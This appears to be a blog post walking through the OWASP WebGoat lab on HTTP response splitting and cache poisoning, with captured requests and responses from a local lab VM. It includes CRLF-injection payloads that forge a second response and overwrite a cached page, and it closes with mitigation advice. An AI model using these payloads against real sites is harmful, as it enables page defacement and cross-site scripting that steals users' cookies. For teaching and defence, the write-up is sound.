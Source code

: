 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 1"
date:   2017-01-24 00:50:00 -0500
categories: coding security owasp bwa
---
```

# HTTP Response Splitting
HTTP Response splitting is an attack that can be performed on a webserver that does not properly implement sanitization of user input on webpage forms. The specific exploitation that can be performed involves the use of carriage returns (%0a in HTML) and linefeeds (%0d in HTML). 

Normally, form entry is passed in a webpage's (client control) request to the webserver. The form fields are then appended onto the request header like so:

```
GET http://website.com/form_page?form1=field1&form2=field2 HTTP/1.1
<Rest of the request>
```

So, we can control part of the request with header data that we enter into our forms. This might not seem immediately malicious, but let's take a look at the WebGoat example:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&language=test
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

language=test&SUBMIT=Search%21
```

So in our form we simply entered "test". The POST request URL looks like we are going to be redirected to another resource on the webserver. Let's look at the server response and see what the next step is going to be:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 0
Via: 1.1 127.0.1.1
Vary: Accept-Encoding
Connection: close
```

Alright, so we are being redirected to the location specified by the 'Location' header in the response. Or more clearly:

```
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
```

Aha! One thing should pop out at us here, and that is the fact that our form input ("test") is found sitting right at the end of the Location header. Now while this request takes us to the page intended by the server, we can manipulate this behaviour by abusing the response parsing mechanism, or the webcache.

The webcache sits between the user and the webapplication, parsing responses from the webapplication to hand back to users. The exploit that we are abusing lies in tricking the webcache to hand back two responses from a single request. If we are allowed to insert carriage return (%0a) and linefeed (%0d) characters into our request, when the webcache handles the redirect response we can trick it into thinking that there should be two responses by truncating the original response and adding another completely attacker-controlled response to the webcache.

An example form exploit input could be like so (%20 is a URL-encoded space):

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

The first section truncates the original intended response by specifying a false Content-Length header. URL-decoded, the redirect response now looks like so:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0
```

The response is considered complete at this point. However, we have appended some extra data, that URL-decoded looks like so:

```
HTTP/1.1 200 OK
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now, the webcache only saw one request sent to the webserver by us (the attacker). Therefore our redirect is handled normally and we are served the cached response, which is the redirect to the location specified in the Location header. However, there is another response that was created from our first request. Using this response combined with some knowledge of how the webcache and webserver interact, we can craft an attack that could affect any other users of the resource.

# Cache Poisoning
So we have previously shown that we can split a single request into two separate responses, the second of which is completely attacker controlled. Now we can manipulate a mechanism that the webserver and webcache use for serving content in order to expose our crafted response to the maximum number of target users of the website.

Remember that in our first HTTP splitting example, the truncated response for the redirect resource was matched to our intial request. This left our payload response "on the wire" so to speak, as there was not a matching request for this resource. In a naive attack, the next request for a resource would be matched to our payload response and the payload would be served to whoever sent that request. However, we want to maximize the impact of our attack. Enter caching.

Caching is a way that the webserver serves the most up-to-date version of a resource to users of the site. Any requests that are sent for a static resource are served the cached version of the resource. Using HTTP splitting, we can perform a "cache poisoning" attack, in which we replace the expected cache of a resource with our malicious version. This is done by adding a "Last-Modified" header to the forged request with a date in the future.

So, now our attack looks like this:

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aLast-Modified:%20Fri,%2020%20Jan%202018%2013:35:00%20EST%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

which translates to the following responses:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0

HTTP/1.1 200 OK
Last-Modified: Fri, 20 Jan 2018 13:35:00 EST
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now during this attack we send two requests. The first request is our malicious form, and the second request is for the webserver resource that we would like to replace with our malicious response, like so:

Request 1:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=foobar%0aContent-Length:%2043%0a%3Chtml%3E123456789012345678901234567890%3C/html%3E
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 271

language=test%250aContent-Length%3A%25200%250a%250aHTTP%2F1.1%2520200%2520OK%250aLast-Modified%3A%2520Fri%2C%252020%2520Jan%25202018%252013%3A35%3A00%2520EST%250aContent-Type%3A%2520text%2Fhtml%250aContent-Length%3A%252017%250a%3Chtml%3Epwnd%3C%2Fhtml%3E&SUBMIT=Search%21
```

Request 2:

```
GET /WebGoat/index.html HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```

When we send the malicious request, it is matched to the original redirect response. Now we have another response waiting to match with a request. Now our second request is received and matched with our malicious response. The webcache sees that the "Last-Modified" header is present in the response, and the date is more recent than the existing cached version, so it replaces the cache for the requested resource ("index.hmtl") with the malicious response ("<html>pwnd</html>").

<img src="{{ site.baseurl }}/images/part1pwnd.jpg">

This can be much more serious than a simple defacement like we performed here. Alternatively, an attacker could append JavaScript to perform cross-site scripting attacks to steal cookies or other sensitive user data. In order to prevent this attack, any user-controlled data that can end up in a request header needs to be sanitized to prevent insertion of carriage-return and linefeed characters.

### Resources
1 [HTTP Response Splitting Whitepaper][http-splitting-whitepaper]
2 [OWASP HTTP Response Splitting][owasp-splitting]

[http-splitting-whitepaper]:https://dl.packetstormsecurity.net/papers/general/whitepaper_httpresponse.pdf
[owasp-splitting]:https://www.owasp.org/index.php/HTTP_Response_Splitting